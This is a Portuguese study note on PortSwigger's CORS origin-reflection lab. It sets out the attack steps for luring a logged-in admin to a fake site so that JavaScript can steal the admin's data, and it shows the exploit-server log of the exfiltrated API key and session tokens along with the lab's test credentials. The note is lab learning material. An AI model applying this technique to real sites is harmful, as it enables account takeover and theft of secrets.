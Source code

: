 # CORS
CROSS ORIGIN RESOURCE SHARING

É um mecanismo do browser que gerencia acesso à recursos hosteados fora do dominio principal.

----------

# Lab: CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
You can log in to your own account using the following credentials: wiener:peter



## Ataque

-> Usar BURP Suite para testar se o website usa CORS

-> Criar um site falso que sera enviado para o admin do site que queremos atacar

-> Para o ataque funcionar, o admin do site atacado precisa estar logado como admin no seu browser

-> Quando ele abrir nosso site falso, o JS que escrevemos vai roubar seus cookies de admin

-> Usamos os cookies de admin para logar como admin no site

-> A partir disso conseguimos descobrir a API KEY de administrador do site atacado.


## Log

2024-09-30 14:31:13 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22MrWH8ExemqOHR1aLZwmreuQFLXxOkj3W%22,%20%20%22sessions%22:%20[%20%20%20%20%22rS0AzFRXFYHM9dcZQefXYwpzI6ZjzhrJ%22,%20%20%20%20%22gMWknqdNOhyuxTub3fIjO1aoWRGB5Rd7%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"\


## Decoded Log

 "username": "administrator",  "email": "",  "apikey": "MrWH8ExemqOHR1aLZwmreuQFLXxOkj3W",  "sessions": [    "rS0AzFRXFYHM9dcZQefXYwpzI6ZjzhrJ",    "gMWknqdNOhyuxTub3fIjO1aoWRGB5Rd7"  ]


## API Key

MrWH8ExemqOHR1aLZwmreuQFLXxOkj3W
